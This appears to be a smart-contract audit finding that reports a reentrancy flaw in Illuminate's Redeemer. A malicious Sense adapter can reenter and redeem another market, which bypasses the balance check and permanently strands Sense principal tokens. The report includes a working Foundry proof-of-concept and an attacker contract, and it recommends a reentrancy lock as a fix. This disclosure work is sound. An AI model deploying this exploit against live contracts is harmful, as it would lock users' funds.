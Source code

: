 kenzo

high

# Reentrancy in redemption methods can lead to total bricking of Sense redemption

## Summary
Sense's `redeem` method only redeems SensePTs that were pulled in the current tx from the Lender.
Using reentrancy in the `redeem` methods,
a griefer can move Lender's SensePTs to Redeemer without actually redeeming them,
thereby totally bricking Sense market redemption.

## Vulnerability Detail
To make sure redemption has happened, Sense's `redeem` method checks that the underlying received after redemption is as much as the PTs pulled from Lender.
Using reentrancy, this check can be fooled and bypassed: **a griefer can reenter Redeemer and redeem another market, which has at least as much underlying as Sense**.
After doing so, **the SensePTs will be in Redeemer and not in Lender**, and the redemption method will finish.
**Since Redeemer only redeems the tokens pulled from Lender, this will render further redemption of Sense impossible**.
See a little more explanation in the Code Snippet section.
I've also coded a POC and it is pasted below.

## Impact
Redemption of Sense market can be totally bricked.
This leads to massive loss of user funds.

Although an attacker gains nothing from doing this,
and it requires external conditions (having a not-yet-redeemed market which holds at least as much underlying as Sense's),
I think this issue deserves a high severity rating.
This is because this griefing attack costs almost nothing - only deployment of contract + tx,
we already have precedent for griefing (eg. the "I accidentally killed it" accident),
the external conditions mentioned above seem totally realistic,
and the end result is catastrophic - massive loss of user funds.
This is why I consider the high severity to be justified.

## Code Snippet
In Sense's `redeem`, to make sure the underlying was received, the method [checks](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L389) that the ending underlying balance was increased at least by `amount`: (truncated)
```solidity
        uint256 amount = token.balanceOf(cachedLender);
        uint256 starting = IERC20(u).balanceOf(address(this));
        ISenseDivider divider = ISenseDivider(ISenseAdapter(a).divider());
        ISenseDivider(divider).redeem(a, s, amount);
        uint256 redeemed = IERC20(u).balanceOf(address(this)) - starting;
        if (redeemed < amount) {
            revert Exception(13, 0, 0, address(0), address(0));
        }
```
The problem is that `a`, the Sense adapter, is user supplied.
The user can supply a contract which upon Redeemer calling it, would reenter Redeemer and redeem another market, that has as much PTs as Sense.
When this other-market-redemption finishes, the contract's underlying balance has indeed grown at least by `amount`.
So the sanity check pasted above, in Sense's `redeem` method, will pass succesfully.

Note that this Sense `redeem` method [only redeems](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L373) the amount that was pulled from Lender:
```solidity
        uint256 amount = token.balanceOf(cachedLender);
        ...
        ISenseDivider(divider).redeem(a, s, amount);
```
This means that if we transfer the SensePTs from Lender to Redeemer without redeeming them,
they can not be further redeemed. 
Also note that there is no way to rescue tokens from Redeemer.

So in the reentrancy scenario described earlier, as the SensePTs have already been transferred from Lender to Redeemer,
they are now stuck there, without way of redemption, lost, for all eternity.
I've attached a POC for this scenario.

## Proof of Concept
The following test will execute this bricking scenario.
The griefer will supply his own contract as Sense adapter, which will reenter Redeemer, redeem YieldPTs, thereby bypassing the sanity check, moving all SensePTs to Redeemer and bricking Sense redemption.
Paste the test in test/fork/Redeemer.t.sol.
See comments for explanation.
The test should go inside RedeemerTest after all the tests, and the contract should be outside RedeemerTest block.
```solidity
    function testSenseRedemptionBricking() public {
        deployMarket(Contracts.USDC, 0);

        // Prepare legitimate Yield redemption
            address principalToken = Contracts.YIELD_TOKEN;

            // give lender principal tokens
            deal(principalToken, address(l), startingBalance);

            // approve lender to transfer principal tokens
            vm.startPrank(address(l));
            IERC20(principalToken).approve(address(r), startingBalance);
            IERC20(Contracts.SENSE_TOKEN).approve(address(r), startingBalance);
            vm.stopPrank();

        // Seed Lender with same amount of Sense PTs    
            deal(Contracts.SENSE_TOKEN, address(l), startingBalance);

        // Redeemer needs to approve Converter to convert some compounding tokens.
        // This is normal behavior in the redemption flow. Executing here as the exploit needs it to happen.
            vm.startPrank(address(r));
            IERC20(Contracts.CUSDC).approve(address(c), type(uint256).max);
            vm.stopPrank();

        // Prepare and start attack.
        SenselessAttacker griefer = new SenselessAttacker(Contracts.USDC, maturity, Contracts.CUSDC);

        // Start by calling Sense redeem method. Griefer contract will reenter Redeemer and 
        //      actually redeem Yield, thereby fooling the Sense underlying safety check.
        r.redeem(6, Contracts.USDC, maturity, maturity, address(griefer));

        // Now Redeemer holds the underlying redeemed for Yield...
        assertEq(IERC20(Contracts.YIELD_TOKEN).balanceOf(address(l)), 0);
        assertEq(IERC20(Contracts.USDC).balanceOf(address(r)), startingBalance);

        // ...but Redeemer also holds the Sense PTs, making further redemption of Sense impossible,
        //      as only Lender's SensePT balance is being redeemed by `redeem`.
        assertEq(IERC20(Contracts.SENSE_TOKEN).balanceOf(address(l)), 0);
        assertEq(IERC20(Contracts.SENSE_TOKEN).balanceOf(address(r)), startingBalance);
    }
```
```solidity
contract SenselessAttacker {
    address underlying;
    uint256 maturity;
    address compounding;

    constructor(address _u, uint256 _m, address _compounding) {
        underlying = _u;
        maturity = _m;
        compounding = _compounding;
    }

    function divider() external view returns (address) {
        return address(this);
    }
    
    function target() external view returns (address) {
        return compounding;
    }

    function redeem(
        address,
        uint256,
        uint256
    ) external returns (uint256) {
        // Redeem Yield to fool underlying check
        Redeemer(msg.sender).redeem(2, underlying, maturity); 
        return 5; // All things happen in fives, or are directly or indirectly related to five. See "Law of Fives".
    }
}
```

## Tool used
Manual Review

## Recommendation
I see 2 options to fix this:
- In Sense's `redeem`, redeem all of Redeemer's PT balance - not only what was pulled from the Lender.
Honestly I think it will be good practice for extra safety to do this for all of the protocols' `redeem` operations.
- Add a reentrancy lock on the redeeming functions.